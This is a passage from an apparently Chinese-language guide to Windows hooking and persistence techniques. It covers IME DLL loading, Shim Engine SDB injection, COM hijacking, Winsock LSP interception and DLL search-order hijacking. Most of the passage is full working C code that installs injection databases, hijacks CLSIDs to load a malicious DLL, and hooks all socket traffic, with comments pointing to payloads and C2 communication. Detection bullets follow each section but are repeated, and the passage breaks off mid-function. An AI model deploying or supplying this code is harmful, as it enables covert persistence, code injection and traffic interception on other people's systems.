__declspec(dllexport) BOOL WINAPI ImeProcessKey(HIMC hIMC, UINT uVirKey, LPARAM lParam, CONST LPBYTE lpbKeyState) { return FALSE; }
__declspec(dllexport) BOOL WINAPI ImeSelect(HIMC hIMC, BOOL fSelect) { return TRUE; }
__declspec(dllexport) BOOL WINAPI ImeSetActiveContext(HIMC hIMC, BOOL fFlag) { return TRUE; }
__declspec(dllexport) UINT WINAPI ImeToAsciiEx(UINT uVirKey, UINT uScanCode, CONST LPBYTE lpbKeyState, LPDWORD lpdwTransBuf, UINT fuState, HIMC hIMC) { return 0; }
__declspec(dllexport) BOOL WINAPI NotifyIME(HIMC hIMC, DWORD dwAction, DWORD dwIndex, DWORD dwValue) { return FALSE; }
__declspec(dllexport) BOOL WINAPI ImeSetCompositionString(HIMC hIMC, DWORD dwIndex, LPCVOID lpComp, DWORD dwCompLen, LPCVOID lpRead, DWORD dwReadLen) { return FALSE; }
__declspec(dllexport) BOOL WINAPI ImeRegisterWord(LPCWSTR lpszReading, DWORD dwStyle, LPCWSTR lpszString) { return FALSE; }
__declspec(dllexport) BOOL WINAPI ImeUnregisterWord(LPCWSTR lpszReading, DWORD dwStyle, LPCWSTR lpszString) { return FALSE; }
__declspec(dllexport) UINT WINAPI ImeGetRegisterWordStyle(UINT nItem, LPSTYLEBUFW lpStyleBuf) { return 0; }
__declspec(dllexport) UINT WINAPI ImeEnumRegisterWord(REGISTERWORDENUMPROCW lpfnEnumProc, LPCWSTR lpszReading, DWORD dwStyle, LPCWSTR lpszString, LPVOID lpData) { return 0; }

BOOL APIENTRY DllMain(HMODULE hModule, DWORD reason, LPVOID reserved) {
if (reason == DLL_PROCESS_ATTACH) {
        DisableThreadLibraryCalls(hModule);
        ImePayload();
    }
return TRUE;
}
#endif
```

### 检测方法

* 枚举 Keyboard Layouts 注册表键，对比系统默认输入法列表

* 检查 IME DLL 是否有有效的数字签名

* 监控 imm32.dll 的 ImmInstallIME / LoadKeyboardLayout 调用

* TSF 注入检测：枚举 COM 注册的 Text Input Processor

### 检测方法

* 枚举 Keyboard Layouts 注册表键，对比系统默认输入法列表
* 检查 IME DLL 是否有有效的数字签名
* 监控 `imm32.dll` 的 `ImmInstallIME` / `LoadKeyboardLayout` 调用
* TSF 注入检测：枚举 COM 注册的 Text Input Processor

---

## 1.14 Shim Engine Hook（应用兼容性引擎）

### 技术定位

**微软官方兼容性框架**，可被滥用做 DLL 注入或内存补丁。通过 SDB 数据库文件匹配目标进程，在 `ntdll!LdrpInitShimEngine` 阶段自动应用。

### 原理

Windows Application Compatibility Framework 允许通过 SDB 文件对应用程序做内存补丁。可重定向 API 调用、修改内存代码（InMemoryPatch）、注入 DLL（InjectDll shim）。系统在进程创建时由 `ntdll!LdrpInitShimEngine` 自动应用匹配的 Shim。

### 完整实现

```c
#include <windows.h>
#include <stdio.h>

typedef HANDLE (WINAPI *SdbCreateDatabase_t)(LPCWSTR path, DWORD type);
typedef void   (WINAPI *SdbCloseDatabaseWrite_t)(HANDLE db);
typedef DWORD  (WINAPI *SdbBeginWriteListTag_t)(HANDLE db, DWORD tag);
typedef BOOL   (WINAPI *SdbEndWriteListTag_t)(HANDLE db, DWORD tagId);
typedef BOOL   (WINAPI *SdbWriteStringTag_t)(HANDLE db, DWORD tag, LPCWSTR value);
typedef BOOL   (WINAPI *SdbWriteDWORDTag_t)(HANDLE db, DWORD tag, DWORD value);
typedef BOOL   (WINAPI *SdbWriteBinaryTag_t)(HANDLE db, DWORD tag, BYTE* data, DWORD size);

#define TAG_DATABASE     0x7001
#define TAG_LIBRARY      0x7002
#define TAG_EXE          0x7007
#define TAG_SHIM_REF     0x7008
#define TAG_PATCH_REF    0x7009
#define TAG_PATCH        0x700A
#define TAG_NAME         0x6001
#define TAG_APP_NAME     0x6006
#define TAG_DLLFILE      0x6003
#define TAG_OS_PLATFORM  0x4023
#define TAG_PATCH_BITS   0x9002
#define TAG_COMMAND_LINE 0x6008

BOOL CreateInjectDllSdb(const WCHAR* sdbPath, const WCHAR* targetExe, const WCHAR* dllToInject) {
    HMODULE hApphelp = LoadLibraryW(L"apphelp.dll");
if (!hApphelp) return FALSE;

    SdbCreateDatabase_t pCreate = (SdbCreateDatabase_t)GetProcAddress(hApphelp, "SdbCreateDatabase");
    SdbCloseDatabaseWrite_t pClose = (SdbCloseDatabaseWrite_t)GetProcAddress(hApphelp, "SdbCloseDatabaseWrite");
    SdbBeginWriteListTag_t pBeginList = (SdbBeginWriteListTag_t)GetProcAddress(hApphelp, "SdbBeginWriteListTag");
    SdbEndWriteListTag_t pEndList = (SdbEndWriteListTag_t)GetProcAddress(hApphelp, "SdbEndWriteListTag");
    SdbWriteStringTag_t pWriteString = (SdbWriteStringTag_t)GetProcAddress(hApphelp, "SdbWriteStringTag");
    SdbWriteDWORDTag_t pWriteDword = (SdbWriteDWORDTag_t)GetProcAddress(hApphelp, "SdbWriteDWORDTag");

if (!pCreate || !pClose || !pBeginList || !pEndList || !pWriteString) {
        FreeLibrary(hApphelp);
return FALSE;
    }

    HANDLE hSdb = pCreate(sdbPath, 2);
if (!hSdb || hSdb == INVALID_HANDLE_VALUE) { FreeLibrary(hApphelp); return FALSE; }

    DWORD dbTag = pBeginList(hSdb, TAG_DATABASE);
    pWriteString(hSdb, TAG_NAME, L"CustomShimDB");
    pWriteDword(hSdb, TAG_OS_PLATFORM, 1);

    DWORD libTag = pBeginList(hSdb, TAG_LIBRARY);
    DWORD shimTag = pBeginList(hSdb, 0x700A);
    pWriteString(hSdb, TAG_NAME, L"InjectDll");
    pWriteString(hSdb, TAG_DLLFILE, L"InjectDll.dll");
    pEndList(hSdb, shimTag);
    pEndList(hSdb, libTag);

    DWORD exeTag = pBeginList(hSdb, TAG_EXE);
    pWriteString(hSdb, TAG_NAME, targetExe);
    pWriteString(hSdb, TAG_APP_NAME, L"TargetApp");
    DWORD refTag = pBeginList(hSdb, TAG_SHIM_REF);
    pWriteString(hSdb, TAG_NAME, L"InjectDll");
    pWriteString(hSdb, TAG_COMMAND_LINE, dllToInject);
    pEndList(hSdb, refTag);
    pEndList(hSdb, exeTag);
    pEndList(hSdb, dbTag);

    pClose(hSdb);
    FreeLibrary(hApphelp);
return TRUE;
}

BOOL InstallSdb(const WCHAR* sdbPath) {
    HMODULE hApphelp = LoadLibraryW(L"apphelp.dll");
if (!hApphelp) return FALSE;
typedef BOOL (WINAPI *SdbInstallDB_t)(LPCWSTR, DWORD);
    SdbInstallDB_t p = (SdbInstallDB_t)GetProcAddress(hApphelp, "SdbInstallDB");
BOOL r = p ? p(sdbPath, 0) : FALSE;
    FreeLibrary(hApphelp);
return r;
}

typedef struct { DWORD rva; BYTE* patchBytes; DWORD patchSize; } MEMORY_PATCH;

BOOL CreateMemPatchSdb(const WCHAR* sdbPath, const WCHAR* targetExe, MEMORY_PATCH* patches, DWORD count) {
    HMODULE hApphelp = LoadLibraryW(L"apphelp.dll");
if (!hApphelp) return FALSE;
    SdbCreateDatabase_t pCreate = (SdbCreateDatabase_t)GetProcAddress(hApphelp, "SdbCreateDatabase");
    SdbCloseDatabaseWrite_t pClose = (SdbCloseDatabaseWrite_t)GetProcAddress(hApphelp, "SdbCloseDatabaseWrite");
    SdbBeginWriteListTag_t pBegin = (SdbBeginWriteListTag_t)GetProcAddress(hApphelp, "SdbBeginWriteListTag");
    SdbEndWriteListTag_t pEnd = (SdbEndWriteListTag_t)GetProcAddress(hApphelp, "SdbEndWriteListTag");
    SdbWriteStringTag_t pStr = (SdbWriteStringTag_t)GetProcAddress(hApphelp, "SdbWriteStringTag");
    SdbWriteBinaryTag_t pBin = (SdbWriteBinaryTag_t)GetProcAddress(hApphelp, "SdbWriteBinaryTag");

    HANDLE hSdb = pCreate(sdbPath, 2);
if (!hSdb) { FreeLibrary(hApphelp); return FALSE; }

    DWORD db = pBegin(hSdb, TAG_DATABASE);
    pStr(hSdb, TAG_NAME, L"MemPatchDB");
    DWORD lib = pBegin(hSdb, TAG_LIBRARY);
for (DWORD i = 0; i < count; i++) {
        DWORD pt = pBegin(hSdb, TAG_PATCH);
        WCHAR nm[32]; swprintf_s(nm, 32, L"P%d", i);
        pStr(hSdb, TAG_NAME, nm);
        DWORD sz = 8 + patches[i].patchSize;
        BYTE* bits = (BYTE*)calloc(1, sz);
        *(DWORD*)bits = patches[i].rva;
        *(DWORD*)(bits+4) = patches[i].patchSize;
        memcpy(bits+8, patches[i].patchBytes, patches[i].patchSize);
        pBin(hSdb, TAG_PATCH_BITS, bits, sz);
        free(bits);
        pEnd(hSdb, pt);
    }
    pEnd(hSdb, lib);
    DWORD exe = pBegin(hSdb, TAG_EXE);
    pStr(hSdb, TAG_NAME, targetExe);
for (DWORD i = 0; i < count; i++) {
        DWORD ref = pBegin(hSdb, TAG_PATCH_REF);
        WCHAR nm[32]; swprintf_s(nm, 32, L"P%d", i);
        pStr(hSdb, TAG_NAME, nm);
        pEnd(hSdb, ref);
    }
    pEnd(hSdb, exe);
    pEnd(hSdb, db);
    pClose(hSdb);
    FreeLibrary(hApphelp);
return TRUE;
}

int wmain() {
    CreateInjectDllSdb(L"C:\\inject.sdb", L"target.exe", L"C:\\payload.dll");
    InstallSdb(L"C:\\inject.sdb");
    BYTE nops[] = {0x90, 0x90, 0x90, 0x90, 0x90};
    MEMORY_PATCH p = {0x1234, nops, 5};
    CreateMemPatchSdb(L"C:\\patch.sdb", L"target.exe", &p, 1);
return 0;
}
```

### 检测方法

* 枚举 `HKLM\...\AppCompatFlags\InstalledSDB`

* 检查 `%windir%\AppPatch\Custom` 目录

* 监控 sdbinst.exe 调用

* sdb2xml 反编译

### 检测方法

* 枚举 `HKLM\...\AppCompatFlags\InstalledSDB`
* 检查 `%windir%\AppPatch\Custom` 目录
* 监控 `sdbinst.exe` 调用
* `sdb2xml` 反编译 SDB 查看注入/补丁内容

---

## 1.15 COM Hijacking（COM 对象劫持）

### 技术定位

**常见无管理员持久化技术**。利用 COM 注册表 `HKCU` 优先于 `HKLM` 的特性，劫持 CLSID 指向恶意 DLL。无需管理员权限。

### 原理

Windows COM 通过注册表 CLSID 查找组件 DLL 路径。`HKCU` 优先于 `HKLM`，因此无需管理员权限即可劫持。系统中存在大量 Abandoned COM 对象（DLL 已删除但注册表未清理），可直接植入 DLL 利用。



### 完整实现

```c
#include <windows.h>
#include <stdio.h>

#pragma comment(lib, "advapi32.lib")
#pragma comment(lib, "ole32.lib")

typedef struct { WCHAR clsid[64]; WCHAR dll[MAX_PATH]; BOOL abandoned; } COM_TARGET;

DWORD ScanAbandonedCom(COM_TARGET* targets, DWORD max) {
    DWORD found = 0;
    HKEY hRoot;
if (RegOpenKeyExW(HKEY_LOCAL_MACHINE, L"SOFTWARE\\Classes\\CLSID", 0, KEY_READ, &hRoot)) return 0;
    DWORD idx = 0; WCHAR clsid[64]; DWORD sz;
while (found < max) {
        sz = 64;
if (RegEnumKeyExW(hRoot, idx++, clsid, &sz, NULL, NULL, NULL, NULL)) break;
        WCHAR sub[128]; swprintf_s(sub, 128, L"%s\\InprocServer32", clsid);
        HKEY hSub;
if (!RegOpenKeyExW(hRoot, sub, 0, KEY_READ, &hSub)) {
            WCHAR dll[MAX_PATH] = {0}; DWORD ds = sizeof(dll);
if (!RegQueryValueExW(hSub, NULL, NULL, NULL, (BYTE*)dll, &ds)) {
                WCHAR exp[MAX_PATH]; ExpandEnvironmentStringsW(dll, exp, MAX_PATH);
if (GetFileAttributesW(exp) == INVALID_FILE_ATTRIBUTES) {
wcscpy_s(targets[found].clsid, 64, clsid);
wcscpy_s(targets[found].dll, MAX_PATH, exp);
                    targets[found].abandoned = TRUE;
                    found++;
                }
            }
RegCloseKey(hSub);
        }
    }
RegCloseKey(hRoot);
return found;
}

BOOL InstallComHijack(const WCHAR* clsid, const WCHAR* malDll) {
    WCHAR key[256];
swprintf_s(key, 256, L"SOFTWARE\\Classes\\CLSID\\%s\\InprocServer32", clsid);
    HKEY hk;
if (RegCreateKeyExW(HKEY_CURRENT_USER, key, 0, NULL, 0, KEY_SET_VALUE, NULL, &hk, NULL)) return FALSE;
RegSetValueExW(hk, NULL, 0, REG_SZ, (BYTE*)malDll, (DWORD)((wcslen(malDll)+1)*2));
    WCHAR tm[] = L"Both";
RegSetValueExW(hk, L"ThreadingModel", 0, REG_SZ, (BYTE*)tm, sizeof(tm));
RegCloseKey(hk);
return TRUE;
}

BOOL RemoveComHijack(const WCHAR* clsid) {
    WCHAR key[256];
swprintf_s(key, 256, L"SOFTWARE\\Classes\\CLSID\\%s", clsid);
return !RegDeleteTreeW(HKEY_CURRENT_USER, key);
}

// 代理 DLL 模板：转发原始 COM 接口，同时执行 payload
#ifdef BUILD_COM_PROXY
static HMODULE g_hOrig = NULL;
typedef HRESULT (WINAPI *DllGetClassObject_t)(REFCLSID, REFIID, LPVOID*);

void ComPayload() {
// DLL 已加载到目标进程（explorer.exe / svchost.exe 等）
// 可执行任意操作：Hook API、读取进程内存、建立 C2 通信等
char exe[MAX_PATH];
GetModuleFileNameA(NULL, exe, MAX_PATH);
// 根据宿主进程决定行为
}

__declspec(dllexport) HRESULT WINAPI DllGetClassObject(REFCLSID rclsid, REFIID riid, LPVOID* ppv) {
if (!g_hOrig) g_hOrig = LoadLibraryW(L"C:\\Windows\\System32\\original_com.dll");
if (g_hOrig) {
        DllGetClassObject_t pOrig = (DllGetClassObject_t)GetProcAddress(g_hOrig, "DllGetClassObject");
if (pOrig) return pOrig(rclsid, riid, ppv);
    }
return 0x80040111L; // CLASS_E_CLASSNOTAVAILABLE
}

__declspec(dllexport) HRESULT WINAPI DllCanUnloadNow(void) { return S_FALSE; }
__declspec(dllexport) HRESULT WINAPI DllRegisterServer(void) { return S_OK; }
__declspec(dllexport) HRESULT WINAPI DllUnregisterServer(void) { return S_OK; }

BOOL APIENTRY DllMain(HMODULE hModule, DWORD reason, LPVOID reserved) {
if (reason == DLL_PROCESS_ATTACH) {
DisableThreadLibraryCalls(hModule);
ComPayload();
    } else if (reason == DLL_PROCESS_DETACH) {
if (g_hOrig) FreeLibrary(g_hOrig);
    }
return TRUE;
}
#endif

// 高价值劫持目标
void PrintTargets() {
const WCHAR* interesting[][2] = {
        {L"{BCDE0395-E52F-467C-8E3D-C4579291692E}", L"MMDeviceEnumerator"},
        {L"{4590F811-1D3A-11D0-891F-00AA004B2E24}", L"WbemLocator (WMI)"},
        {L"{F56F6FDD-AA9D-4618-A949-C1B91AF43B1A}", L"TaskScheduler"},
        {L"{0002DF01-0000-0000-C000-000000000046}", L"InternetExplorer"},
    };
for (int i = 0; i < 4; i++)
wprintf(L"  %s -> %s\n", interesting[i][0], interesting[i][1]);
}

int wmain() {
    COM_TARGET t[100]; DWORD n = ScanAbandonedCom(t, 100);
wprintf(L"Found %lu abandoned COM objects:\n", n);
for (DWORD i = 0; i < n && i < 15; i++)
wprintf(L"  %s -> %s\n", t[i].clsid, t[i].dll);
wprintf(L"\nHigh-value targets:\n");
PrintTargets();
return 0;
}
```

### 检测方法

* 对比 HKCU vs HKLM CLSID 键发现覆盖

* InprocServer32 DLL 签名验证

* Sysmon Event 12/13 监控 CLSID 修改

* 定期扫描 Abandoned COM Keys

* 使用 OleView 或 COM Hijack 检测工具审计

### 检测方法

* 对比 HKCU vs HKLM CLSID 键发现覆盖
* InprocServer32 DLL 签名验证
* Sysmon Event 12/13 监控 CLSID 修改
* 定期扫描 Abandoned COM Keys
* 使用 OleView 或 COM Hijack 检测工具审计

---

## 1.16 Winsock LSP（分层服务提供程序 Hook）

### 技术定位

**已弃用，仅向后兼容**。Win10+ 推荐使用 WFP（Windows Filtering Platform）做网络过滤。LSP 仍可加载但微软不再推荐。

### 原理

Winsock Layered Service Provider 在 Winsock API 和底层传输协议间插入自定义层。LSP DLL 被自动加载到所有使用网络的进程中（浏览器、游戏、IM 等），可拦截 `connect`/`send`/`recv` 等所有网络操作。通过 `WSCInstallProvider` API 安装，注册表位于 `Protocol_Catalog9`。

> Win10+ 虽已弃用 LSP（推荐 WFP），但为向后兼容仍然支持加载。

### 完整实现

```c
#include <windows.h>
#include <winsock2.h>
#include <ws2spi.h>
#include <sporder.h>
#include <stdio.h>

#pragma comment(lib, "ws2_32.lib")
#pragma comment(lib, "rpcrt4.lib")

BOOL InstallLsp(const WCHAR* dllPath, const WCHAR* lspName) {
    WSADATA wd; WSAStartup(MAKEWORD(2, 2), &wd);

    DWORD bufSize = 0;
WSCEnumProtocols(NULL, NULL, &bufSize, NULL);
    LPWSAPROTOCOL_INFOW protoInfo = (LPWSAPROTOCOL_INFOW)malloc(bufSize);
int protoCount = WSCEnumProtocols(NULL, protoInfo, &bufSize, NULL);
if (protoCount <= 0) { free(protoInfo); return FALSE; }

    DWORD tcpId = 0, udpId = 0;
for (int i = 0; i < protoCount; i++) {
if (protoInfo[i].iAddressFamily == AF_INET && protoInfo[i].ProtocolChain.ChainLen == 1) {
if (protoInfo[i].iProtocol == IPPROTO_TCP) tcpId = protoInfo[i].dwCatalogEntryId;
if (protoInfo[i].iProtocol == IPPROTO_UDP) udpId = protoInfo[i].dwCatalogEntryId;
        }
    }

    GUID lspGuid; UuidCreate(&lspGuid);
    WSAPROTOCOL_INFOW lspProto = protoInfo[0];
    lspProto.ProtocolChain.ChainLen = LAYERED_PROTOCOL;
    lspProto.dwServiceFlags1 = XP1_IFS_HANDLES;
wcscpy_s(lspProto.szProtocol, WSAPROTOCOL_LEN + 1, lspName);

int err = 0;
if (WSCInstallProvider(&lspGuid, dllPath, &lspProto, 1, &err) == SOCKET_ERROR) {
free(protoInfo); return FALSE;
    }

// 重新枚举获取 LSP Catalog ID
free(protoInfo); bufSize = 0;
WSCEnumProtocols(NULL, NULL, &bufSize, NULL);
    protoInfo = (LPWSAPROTOCOL_INFOW)malloc(bufSize);
    protoCount = WSCEnumProtocols(NULL, protoInfo, &bufSize, NULL);

    DWORD lspCatId = 0;
for (int i = 0; i < protoCount; i++)
if (!memcmp(&protoInfo[i].ProviderId, &lspGuid, sizeof(GUID)))
            { lspCatId = protoInfo[i].dwCatalogEntryId; break; }

// 创建协议链条目
    WSAPROTOCOL_INFOW chains[2] = {0}; int chainCount = 0;
if (tcpId) {
        chains[chainCount] = protoInfo[0];
        chains[chainCount].ProtocolChain.ChainLen = 2;
        chains[chainCount].ProtocolChain.ChainEntries[0] = lspCatId;
        chains[chainCount].ProtocolChain.ChainEntries[1] = tcpId;
        chains[chainCount].iProtocol = IPPROTO_TCP;
        chains[chainCount].iSocketType = SOCK_STREAM;
        chainCount++;
    }
if (udpId) {
        chains[chainCount] = protoInfo[0];
        chains[chainCount].ProtocolChain.ChainLen = 2;
        chains[chainCount].ProtocolChain.ChainEntries[0] = lspCatId;
        chains[chainCount].ProtocolChain.ChainEntries[1] = udpId;
        chains[chainCount].iProtocol = IPPROTO_UDP;
        chains[chainCount].iSocketType = SOCK_DGRAM;
        chainCount++;
    }

    GUID chainGuid; UuidCreate(&chainGuid);
WSCInstallProvider(&chainGuid, dllPath, chains, chainCount, &err);

free(protoInfo);
WSACleanup();
return TRUE;
}

// LSP DLL 实现
#ifdef BUILD_LSP_DLL
static WSPPROC_TABLE g_nextTable = {0};

int WSPAPI LSP_WSPConnect(SOCKET s, conststruct sockaddr* name, int namelen,
    LPWSABUF lpCallerData, LPWSABUF lpCalleeData, LPQOS lpSQOS, LPQOS lpGQOS, LPINT lpErrno){
if (name->sa_family == AF_INET) {
struct sockaddr_in* addr = (struct sockaddr_in*)name;
        USHORT port = ntohs(addr->sin_port);
        ULONG ip = ntohl(addr->sin_addr.s_addr);
// 记录连接目标 / 阻止特定 IP:Port / 重定向流量
// if (port == 443 && ip == TARGET_IP) { *lpErrno = WSAECONNREFUSED; return SOCKET_ERROR; }
    }
return g_nextTable.lpWSPConnect(s, name, namelen, lpCallerData, lpCalleeData, lpSQOS, lpGQOS, lpErrno);
}

int WSPAPI LSP_WSPSend(SOCKET s, LPWSABUF lpBuffers, DWORD dwBufferCount,
    LPDWORD lpNumberOfBytesSent, DWORD dwFlags, LPWSAOVERLAPPED lpOverlapped,
    LPWSAOVERLAPPED_COMPLETION_ROUTINE lpCompletionRoutine, LPWSATHREADID lpThreadId, LPINT lpErrno){
// 检查/修改/记录发送数据
for (DWORD i = 0; i < dwBufferCount; i++) {
// DLP 检查、关键词过滤、流量镜像等
    }
return g_nextTable.lpWSPSend(s, lpBuffers, dwBufferCount, lpNumberOfBytesSent,
        dwFlags, lpOverlapped, lpCompletionRoutine, lpThreadId, lpErrno);
}

int WSPAPI LSP_WSPRecv(SOCKET s, LPWSABUF lpBuffers, DWORD dwBufferCount,
    LPDWORD lpNumberOfBytesRecvd, LPDWORD lpFlags, LPWSAOVERLAPPED lpOverlapped,
    LPWSAOVERLAPPED_COMPLETION_ROUTINE lpCompletionRoutine, LPWSATHREADID lpThreadId, LPINT lpErrno){
int ret = g_nextTable.lpWSPRecv(s, lpBuffers, dwBufferCount, lpNumberOfBytesRecvd,
        lpFlags, lpOverlapped, lpCompletionRoutine, lpThreadId, lpErrno);
if (ret == 0 && lpNumberOfBytesRecvd && *lpNumberOfBytesRecvd > 0) {
// 检查接收内容、注入数据等
    }
return ret;
}

int WSPAPI WSPStartup(WORD wVersionRequested, LPWSPDATA lpWSPData,
    LPWSAPROTOCOL_INFOW lpProtocolInfo, WSPUPCALLTABLE UpcallTable, LPWSPPROC_TABLE lpProcTable){
    DWORD nextCatalogId = lpProtocolInfo->ProtocolChain.ChainEntries[1];

// 查找下层协议 DLL 路径
    DWORD bufSize = 0;
WSCEnumProtocols(NULL, NULL, &bufSize, NULL);
    LPWSAPROTOCOL_INFOW protos = (LPWSAPROTOCOL_INFOW)malloc(bufSize);
int count = WSCEnumProtocols(NULL, protos, &bufSize, NULL);

    WCHAR nextDllPath[MAX_PATH] = {0};
int pathLen = MAX_PATH, err = 0;
for (int i = 0; i < count; i++) {
if (protos[i].dwCatalogEntryId == nextCatalogId) {
WSCGetProviderPath(&protos[i].ProviderId, nextDllPath, &pathLen, &err);
break;
        }
    }
free(protos);

    WCHAR expandedPath[MAX_PATH];
ExpandEnvironmentStringsW(nextDllPath, expandedPath, MAX_PATH);
    HMODULE hNext = LoadLibraryW(expandedPath);
if (!hNext) return WSAEPROVIDERFAILEDINIT;

typedef int (WSPAPI *WSPStartup_t)(WORD, LPWSPDATA, LPWSAPROTOCOL_INFOW, WSPUPCALLTABLE, LPWSPPROC_TABLE);
    WSPStartup_t pNextStartup = (WSPStartup_t)GetProcAddress(hNext, "WSPStartup");
if (!pNextStartup) return WSAEPROVIDERFAILEDINIT;

    WSAPROTOCOL_INFOW nextInfo = *lpProtocolInfo;
    nextInfo.dwCatalogEntryId = nextCatalogId;
int ret = pNextStartup(wVersionRequested, lpWSPData, &nextInfo, UpcallTable, lpProcTable);
if (ret != 0) return ret;

// 保存下层函数表，替换拦截点
    g_nextTable = *lpProcTable;
    lpProcTable->lpWSPConnect = LSP_WSPConnect;
    lpProcTable->lpWSPSend = LSP_WSPSend;
    lpProcTable->lpWSPRecv = LSP_WSPRecv;
return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD reason, LPVOID reserved) {
if (reason == DLL_PROCESS_ATTACH) DisableThreadLibraryCalls(hModule);
return TRUE;
}
#endif
```

### 检测方法

* `netsh winsock show catalog`
   查看已安装 LSP

* 扫描 `Protocol_Catalog9` 注册表异常 DLL

* `netsh winsock reset`
   重置（移除所有第三方 LSP）

* 现代系统应使用 WFP（内核级）替代

### 检测方法

* `netsh winsock show catalog` 查看已安装 LSP
* 扫描 `Protocol_Catalog9` 注册表异常 DLL
* `netsh winsock reset` 重置（移除所有第三方 LSP）
* 现代系统应使用 WFP（内核级）替代

---

## 1.17 DLL Search Order Hijacking（DLL 搜索顺序劫持）

### 技术定位

**常见且仍广泛使用**。在 DLL 搜索路径的高优先级目录放置同名 DLL 劫持加载。合法场景包括应用代理 DLL（如 ReShade、某些插件系统）。

### 原理

Windows 加载 DLL 时按照固定顺序搜索：

1. 应用程序自身目录（最高优先级）
2. System32
3. 16 位 System 目录
4. Windows 目录
5. 当前工作目录（`SafeDllSearchMode` 开启时优先级降低）
6. PATH 环境变量目录

在高优先级目录中植入与目标 DLL 同名的文件，即可劫持加载。核心系统 DLL 受 `KnownDlls` 注册表保护（始终从 System32 加载），但第三方依赖和非 KnownDll 的系统 DLL 仍可被劫持。



### 完整实现

```c
#include <windows.h>
#include <stdio.h>
#include <tlhelp32.h>

#pragma comment(lib, "dbghelp.lib")

typedef struct {
    WCHAR dllName[MAX_PATH];
    WCHAR plantPath[MAX_PATH];
} HIJACK_OPPORTUNITY;

// 分析 PE 导入表找出可劫持的 DLL
DWORD AnalyzeImports(const WCHAR* pePath, HIJACK_OPPORTUNITY* results, DWORD maxResults) {
    DWORD found = 0;

    HANDLE hFile = CreateFileW(pePath, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
if (hFile == INVALID_HANDLE_VALUE) return 0;
    HANDLE hMapping = CreateFileMappingW(hFile, NULL, PAGE_READONLY, 0, 0, NULL);
if (!hMapping) { CloseHandle(hFile); return 0; }
    LPVOID pBase = MapViewOfFile(hMapping, FILE_MAP_READ, 0, 0, 0);
if (!pBase) { CloseHandle(hMapping); CloseHandle(hFile); return 0; }

    PIMAGE_DOS_HEADER pDos = (PIMAGE_DOS_HEADER)pBase;
    PIMAGE_NT_HEADERS pNt = (PIMAGE_NT_HEADERS)((BYTE*)pBase + pDos->e_lfanew);
    DWORD importRva = pNt->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress;
if (!importRva) goto cleanup;

    PIMAGE_SECTION_HEADER pSec = IMAGE_FIRST_SECTION(pNt);
    BYTE* importPtr = NULL;
for (WORD i = 0; i < pNt->FileHeader.NumberOfSections; i++) {
if (importRva >= pSec[i].VirtualAddress &&
            importRva < pSec[i].VirtualAddress + pSec[i].SizeOfRawData) {
            importPtr = (BYTE*)pBase + importRva - pSec[i].VirtualAddress + pSec[i].PointerToRawData;
break;
        }
    }
if (!importPtr) goto cleanup;

// KnownDlls: 这些 DLL 受系统保护，无法通过搜索顺序劫持
const char* knownDlls[] = {
"kernel32.dll", "ntdll.dll", "user32.dll", "gdi32.dll", "advapi32.dll",
"shell32.dll", "ole32.dll", "oleaut32.dll", "msvcrt.dll", "ws2_32.dll",
"comctl32.dll", "comdlg32.dll", "rpcrt4.dll", "secur32.dll", "shlwapi.dll",
"setupapi.dll", "cfgmgr32.dll", "imm32.dll", "normaliz.dll", NULL
    };

    WCHAR exeDir[MAX_PATH];
    wcscpy_s(exeDir, MAX_PATH, pePath);
    WCHAR* lastSlash = wcsrchr(exeDir, L'\\');
if (lastSlash) *lastSlash = L'\0';

    PIMAGE_IMPORT_DESCRIPTOR pImport = (PIMAGE_IMPORT_DESCRIPTOR)importPtr;
while (pImport->Name && found < maxResults) {
        DWORD nameRva = pImport->Name;
char* dllNameA = NULL;
for (WORD i = 0; i < pNt->FileHeader.NumberOfSections; i++) {
if (nameRva >= pSec[i].VirtualAddress &&
                nameRva < pSec[i].VirtualAddress + pSec[i].SizeOfRawData) {
